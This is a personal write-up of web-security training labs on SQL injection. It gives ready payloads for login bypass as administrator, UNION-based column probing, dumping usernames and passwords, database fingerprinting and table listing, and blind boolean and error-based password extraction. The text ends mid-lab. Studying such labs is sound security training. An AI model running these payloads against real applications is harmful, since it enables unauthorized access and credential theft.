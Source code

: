 # SQLi

## LAB 1 -- Retrieving hidden data

find vulnerable part by adding **_'_** which will accure error in the server
example: SELECT _ FROM product where category = '$cat_name'
error: SELECT _ FROM product where category = 'pets''
to avoid the error you need to comment all the next words by adding -- in oracle and # in microsoft
**SOLUTION :** '+or+1=1

---

## LAB 2 -- Subverting application logic

after finding vuln part we can use it for multiple reasons like bypassing login
this is the authentication logic: SELECT \* FROM users WHERE username = '$user' AND password = '$pass'

after setting $user = administrator'--
will select only administrator username and comment the next logic
**SOLUTION:** administrator'--

---

## LAB 3 -- Determining the number of columns required in a SQL injection UNION attack

with UNION you get data from other tables and display it

1. so first let's start with ' order by num -- with this payload you can check how many columns are there by inserting number from 1 until the error accured (**The ORDER BY position number 3 is out of range of the number of items in the select list.**)
2. or you can use 'union select null,null... until you found the right number of columns which the data will be displayed wothout any errors
   **SOLUTION:** '+UNION+SELECT+NULL,NULL--

---

## LAB 4 -- Finding columns with a useful data type in a SQL injection UNION attack

then you need to know the type of the column int or str by replacing null with random values like this :
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
**SOLUTION:** '+UNION+SELECT+null,'qJRR0O',NULL--

---

## LAB 5 -- Using a SQL injection UNION attack to retrieve interesting data

in this lab will you need to use union attack to retrieve the username and the password
after finding how many columns are available and there types you can use the str columns to get username and password
**SOLUTION:** '+UNION+SELECT+username,+password+FROM+users--

---

## LAB 6 -- Retrieving multiple values within a single column

in this lab you will find just one str column but you need to get the username & pass
you retrieve them in single column using the following payload
**SOLUTION:** ' UNION SELECT username || '~' || password FROM users--

---

## LAB 7 -- Querying the database type and version

**ORACLE SOLUTION:** '+UNION+SELECT+BANNER,+NULL+FROM+v$version--
**MICROSOFT SOLUTION:** '+UNION+SELECT+@@version,+NULL#

---

## LAB 8 -- Listing the contents of the database

now we need to get all content of the database notice that we will use **information_schema.tables** to get all tables and **information_scheme.columns** to get the columns of the tbales

**SOLUTION:**

1. you need to get all tables using this payload **'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--**

2. you need to get all the columns of the table with this payload:
   **'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--**
3. get the username and the pass of the admin with the following payload: **'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--**

---

## LAB 9 -- SQL injection attack, listing the database contents on Oracle

**SOLUTION:**

1. you need to get all tables using this payload **'+UNION+SELECT+table_name,+NULL+FROM+all_tables--**

2. you need to get all the columns of the table with this payload:
   **'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name='users_abcdef'--**
3. get the username and the pass of the admin with the following payload: **'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--**

---

## LAB 10 -- Exploiting blind SQL injection by triggering conditional responses:

1. check if username administrator exist:
   trackingID' and (select username from users where username = 'administrator') = 'administrator' --
   "welcome back!" returned, username exist

2. enumerate the length of the password:
   send the request to the repeater and try:

   - trackingID' and (select username from users where username = 'administrator' and LENGTH(password)> 1) = 'administrator'-- ===> welcome back returned so the length of the password is > 1 ofc
   - trackingID' and (select username from users where username = 'administrator' and LENGTH(password)> 30) = 'administrator'-- ===> welcome back not returned so the length of the password is less then 30

   after send the request to the intreducer and add the params start the and find the right length

3. enumerate the password using cluster bomb attack:
   after sending the request to the intruder and use brut forcer:
   ' and (select substring(password,$1$,1) from users where username = 'administrator') = '$a$' --

---

## LAB 11 -- Blind SQL injection with conditional errors:

1. first let's inject sql code that cause an error and see if the website is vulnerable using this code:
   trackingID' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
   noticed that you will recieve internal error

2. let's check if 'administrator' user is there:
   '||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
   if the user exist the condition will be executed otherwise it'll not

3. password length enumuration:
   '||(SELECT CASE WHEN LENGTH(password)=$1$ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
   when the right length found an error will accured

4. password enumuration:

---

## LAB 12 --
